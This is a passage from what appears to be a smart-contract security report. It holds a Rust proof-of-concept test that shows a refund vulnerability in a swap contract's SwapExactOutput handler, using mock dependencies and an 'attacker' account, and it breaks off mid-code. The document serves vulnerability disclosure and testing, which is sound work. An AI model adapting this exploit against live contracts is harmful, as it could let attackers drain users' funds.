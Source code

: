 ## Proof of Concept

### Exploitation Test Code

```rust
#[cfg(test)]
mod exploit_poc {
    use cosmwasm_std::{
        testing::{mock_dependencies, mock_env, mock_info},
        coins, Addr, BankMsg, CosmosMsg, Uint128,
    };
    use injective_math::FPDecimal;
    use crate::{
        contract::execute,
        msg::ExecuteMsg,
        types::{Config, SwapRoute},
        state::{CONFIG, ROUTES},
    };

    #[test]
    fn demonstrate_refund_vulnerability() {
        // Setup
        let mut deps = mock_dependencies();
        let env = mock_env();

        // Configure contract
        let config = Config {
            fee_recipient: Addr::unchecked("fee_recipient"),
            admin: Addr::unchecked("admin"),
        };
        CONFIG.save(deps.as_mut().storage, &config).unwrap();

        // Setup vulnerable route (USDT as quote in first market)
        let route = SwapRoute {
            steps: vec!["USDT_ATOM_market".to_string()],
            source_denom: "USDT".to_string(),
            target_denom: "ATOM".to_string(),
        };
        ROUTES.save(
            deps.as_mut().storage,
            ("USDT".to_string(), "ATOM".to_string()),
            &route
        ).unwrap();

        // Attacker provides 1000 USDT
        let attacker_funds = Uint128::new(1000_000000); // 1000 USDT (6 decimals)
        let info = mock_info("attacker", &coins(attacker_funds.u128(), "USDT"));

        // Execute exploit
        let msg = ExecuteMsg::SwapExactOutput {
            target_denom: "ATOM".to_string(),
            target_output_quantity: FPDecimal::from(100u128),
        };

        let result = execute(deps.as_mut(), env, info, msg).unwrap();

        // Analyze refund message
        let refund_msg = result.messages.iter()
            .find_map(|msg| {
                if let CosmosMsg::Bank(BankMsg::Send { to_address, amount }) = &msg.msg {
                    if to_address == "attacker" {
                        Some(&amount[0])
                    } else {
```